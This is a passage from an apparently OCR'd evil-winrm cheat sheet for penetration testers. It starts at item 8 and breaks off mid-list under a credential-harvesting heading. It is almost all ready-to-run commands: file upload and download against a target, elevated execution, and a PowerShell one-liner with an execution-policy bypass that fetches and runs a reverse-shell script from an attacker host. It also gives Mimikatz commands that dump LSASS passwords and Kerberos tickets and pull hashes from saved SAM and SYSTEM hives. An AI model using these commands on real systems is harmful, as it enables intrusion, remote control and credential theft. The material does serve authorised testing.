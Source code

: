 8. **Specifying a Custom Port**: Connects to the WinRM service on a non-default port.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -P 5986
    ```
9. **Uploading Files to the Target**: Uploads a file from the attacker's machine to the target system.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "upload /path/to/local/file /path/to/remote/destination"
    ```
10. **Downloading Files from the Target**: Downloads a file from the target system to the attacker's machine.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "download /path/to/remote/file /path/to/local/destination"
    ```
11. **Executing Commands with Real-Time Output**: Executes a command and provides real-time output.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -X "Get-Process"
    ```
12. **Connecting via a SOCKS Proxy**: Routes the connection through a SOCKS proxy.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -proxy <proxy_ip:proxy_port>
    ```
13. **Running Commands with Elevated Privileges**: Attempts to execute a command with elevated privileges.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "powershell Start-Process cmd -ArgumentList '/c whoami' -Verb RunAs"
    ```
14. **Shell Escape for Advanced Operations**: Escapes to a full PowerShell session for more advanced operations, such as loading scripts from a remote server.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password>
    PS> powershell -ExecutionPolicy Bypass -NoProfile -Command "iex(New-Object Net.WebClient).DownloadString('http://<attacker_ip>/Invoke-PowerShellTcp.ps1')"
    ```

# Penetration Testing Techniques

#### Credential Harvesting

1. **Dumping Credentials from LSASS**: Executes Mimikatz to dump credentials stored in LSASS.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "Invoke-Mimikatz -Command 'privilege::debug sekurlsa::logonpasswords'"
    ```
2. **Harvesting Cached Credentials**: Harvests cached Kerberos tickets for further attacks.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "Invoke-Mimikatz -Command 'sekurlsa::tickets /export'"
    ```
3. **Extracting Hashes from SAM Database**: Extracts password hashes from the SAM database using Mimikatz.
    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> -c "reg save hklm\\sam sam.save"
    evil-winrm -i <target_ip> -u <username> -p <password> -c "reg save hklm\\system system.save"
    evil-winrm -i <target_ip> -u <username> -p <password> -c "Invoke-Mimikatz -Command 'lsadump::sam /system:system.save /sam:sam.save'"
    ```
4. **Credential Harvesting from Web Browsers**: Executes a PowerShell script to harvest stored web credentials.
    ```bash